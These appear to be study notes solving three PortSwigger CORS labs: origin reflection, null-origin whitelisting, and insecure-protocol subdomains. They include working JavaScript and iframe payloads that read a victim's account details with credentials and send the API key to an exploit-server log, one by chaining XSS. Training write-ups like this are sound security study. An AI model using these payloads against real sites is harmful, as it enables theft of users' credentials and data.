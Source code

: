## Table of Contents

- [[#CORS vulnerability with basic origin reflection]]
- [[#CORS vulnerability with trusted null origin]]
- [[#CORS vulnerability with trusted insecure protocols]]

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

```ad-hint
title: Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```javascript
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
~~~javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
~~~

6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.
```

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```ad-hint
title: Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
~~~javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
~~~
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.
```

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

```ad-hint
title: Quick Solution
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. There is also a vulnerable subdomain endpoint used to check the stock that is vulnerable to XSS. This endpoint can be leveraged to exfiltrate date frmo the main domain. In the exploit server we just have to redirect the user to the vulnerable subdomain and perform XSS on it, see next paragraph for Solution.
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: http://subdomain.lab-id`` where ``lab-id`` is the lab domain name.
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the ``productID`` parameter is vulnerable to XSS.
7. In your browser, go to the exploit server and enter the following HTML, replacing ``$your-lab-url`` with your unique lab URL and ``$exploit-server-url`` with your exploit server URL:
~~~html
<script>
   document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
~~~
```
